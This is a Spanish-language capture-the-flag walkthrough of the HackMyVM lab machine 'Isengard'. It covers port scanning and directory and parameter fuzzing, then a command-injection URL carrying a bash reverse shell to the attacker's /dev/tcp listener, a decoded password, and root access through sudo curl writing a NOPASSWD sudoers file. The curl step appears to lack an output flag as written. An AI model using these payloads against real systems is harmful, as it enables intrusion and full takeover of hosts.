 ```yaml
---
layout: post
title: Isengard
date: 2022-12-05
author: BlackCage
categories: [HackMyVM]
tags: [HMV, Enumeration, Base64, File Edit]
---
```


# Isengard [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.112 -oG allPorts`
- `nmap -sCV -p80 192.168.1.112 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Si nos vamos a la web veremos un texto, es una referencia al `Señor de los Anillos`. Vemos una imagen con unas letras algo extrañas, si inspeccionamos el código veremos un archivo `CSS`, si lo inspeccionamos veremos una nota al principio la cual nos dice la tipografía que quiere añadir, pero todo esto es una distracción, no nos servirá de nada.

En el mismo archivo `CSS` si bajamos hasta el final veremos otro comentario que nos llama mucho más la atención que el anterior:

> /* btw: in the robots.txt i have to put the url /y0ush4lln0tp4ss */

Vemos que nos dice que en el archivo `robots.txt` tiene que poner la `URL` `/y0ush4lln0tp4ss`. Bien! Vamos a ver qué contiene dicho directorio.

Cuando entramos vemos una imagen sin relevancia alguna, así que vamos a `fuzzear` para descubrir directorios y archivos. Para ello utilizaré `GoBuster`, es más rápido que `WFuzz`:

```
gobuster dir -u "http://192.168.1.112/y0ush4lln0tp4ss/" -w directory-list-2.3-medium.txt -x php,txt,html
```

```
/.html                (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 250]
/.php                 (Status: 403) [Size: 278]
/east                 (Status: 301) [Size: 329] [--> http://192.168.1.112/y0ush4lln0tp4ss/east/]
```

Bien! Vemos otro directorio con el nombre `east`! Cuando entramos sólo vemos una imagen, de nuevo es irrelevante, por lo que de nuevo usaremos `GoBuster`:

```
gobuster dir -u "http://192.168.1.112/y0ush4lln0tp4ss/east/" -w directory-list-2.3-medium.txt -x php,txt,html
```

```
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 285]
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/mellon.php           (Status: 200) [Size: 0]
```

Vemos un archivo `PHP` con el nombre de `mellon.php`. Como vemos tiene un tamaño de cero caracteres, seguramente sea porque necesita algún parámetro para que funcione. Para descubir dicho parámetro utilizaré `WFuzz`:

```
wfuzz -u "http://192.168.1.112/y0ush4lln0tp4ss/east/mellon.php?FUZZ=pwd" -w rockyou.txt --hc 404 --hh 0 -t 300
```

```
=====================================================================
ID           Response   Lines    Word       Chars       Payload               
=====================================================================
000014579:   200        1 L      1 W        35 Ch       "frodo"
```

Como vemos con el parámetro `frodo` recibimos una respuesta, si lo vemos en el navegador veremos la ruta en la que se encuentra, por lo que hemos encontrado un `RCE`. Para obtener una Reverse Shell me puse en escucha con `NC` por el puerto (en mi caso) `4444`:

- `nc -nlvp 4444`

Una vez hecho lo anterior me fui a [`IronHackers`](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) y me copié la Reverse Shell en `Bash`. Con esto hecho cambié los `&` por su versión `URLencoded` (`%26`).

```
http://192.168.1.112/y0ush4lln0tp4ss/east/mellon.php?frodo=bash -c 'bash -i >%26 /dev/tcp/192.168.1.103/4444 0>%261'
```

Bien! Estamos en la máquina como `www-data`!

### Subida de privilegios #1
Una vez en la máquina como `www-data` tenemos que convertirnos en `Sauron`. Dentro del directorio en el que nos encontramos vemos un archivo con el nombre ded `oooREADMEooo`. Vamos a leerlo:

> it is not easy to find the unique ring
>
> keep searching

Nos dice que no es fácil encontrar el único anillo, que sigamos buscando. También vemos un fichero `ZIP` con el nombre de `ring.zip`, por lo que suponía que todos los anillos que debíamos encontrar tenían el mismo nombre, por lo que con `find` busqué dicho fichero:

- `find / -name "ring*" 2>/dev/null`

Vemos dos resultados: El que está en el directorio en el que nos encontramos y uno más interesante en el directorio `/opt/.nothingtoseehere/.donotcontinue/.stop/.heWillKnowYouHaveIt/.willNotStop/.ok_butDestroyIt/`.

Me pasé el `ZIP` a mi máquina y con `unzip` lo extraje. Vemos un fichero con el nombre `ring.txt`, vamos a ver qué contiene:

```
ZVZoTFRYYzFkM0JUUVhKTU1rTk1XQW89Cg==
```

Es una cadena en `Base64`! Vamos a decodificarla:

- `echo "ZVZoTFRYYzFkM0JUUVhKTU1rTk1XQW89Cg==" | base64 -d`

```
eVhLTXc1d3BTQXJMMkNMWAo=
```

Otra cadena! De nuevo vamos a decodificarla:

- `echo "eVhLTXc1d3BTQXJMMkNMWAo=" | base64 -d`

```
yXKMw5wpSArL2CLX
```

Eso ya no es `Base64`, es la contraseña de `Sauron` (`sauron:yXKMw5wpSArL2CLX`)!

### Subida de privilegios #2
Una vez como `Sauron` podemos ejecutar `sudo -l` para listar todo lo que podemos hacer:

```
Matching Defaults entries for sauron on isengard:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sauron may run the following commands on isengard:
    (ALL) /usr/bin/curl
```

Bien! Podemos ejecutar `CURL` como cualquier usuario, es decir, como `root` sin contraseña. Para poder convertirnos en `root` me creé un fichero con el nombre de `sauron` en mi directorio personal para que con `CURL` llevarlo a `/etc/sudoers.d/` y tener todos los permisos.

Primero vamos a crearnos el fichero para que podamos ejecutar todo sin contraseña y como `root`:

```
sauron ALL=(ALL) NOPASSWD: ALL
```

Una vez hecho esto vamos a la parte de `CURL`:

- `sudo curl file:///home/sauron/sauron /etc/sudoers.d/sauron`

Bien! Una vez hecho esto podemos volver a mirar con `sudo -l` lo que podemos hacer y veremos una línea extra!

```
Matching Defaults entries for sauron on isengard:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sauron may run the following commands on isengard:
    (ALL) /usr/bin/curl
    (ALL) NOPASSWD: ALL
```

Enhorabuena! Estamos como `root` en la máquina víctima! Cuánta enumeración!
